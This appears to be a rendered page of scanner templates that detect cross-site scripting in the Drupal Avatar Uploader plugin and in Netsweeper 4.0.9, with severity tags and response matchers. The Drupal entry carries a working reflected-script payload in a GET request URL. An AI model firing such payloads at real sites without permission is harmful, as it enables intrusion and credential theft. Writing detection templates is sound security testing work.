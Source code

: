- status
  1. 200

---

# Drupal Avatar Uploader - Cross-Site Scripting

## Description

- Drupal Avatar Uploader v7.x-1.0-beta8 plugin contains a cross-site scripting vulnerability in the slider import search feature and tab parameter via plugin settings.

- severity - high
- tags - xss,drupal,edb,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/avatar_uploader.pages.inc?file=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. \<div>\<script>alert(document.domain)\</script>\</div>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Netsweeper 4.0.9 - Cross-Site Scripting

## Description

- Netsweeper 4.0.9 contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - edb,xss,packetstorm,netsweeper
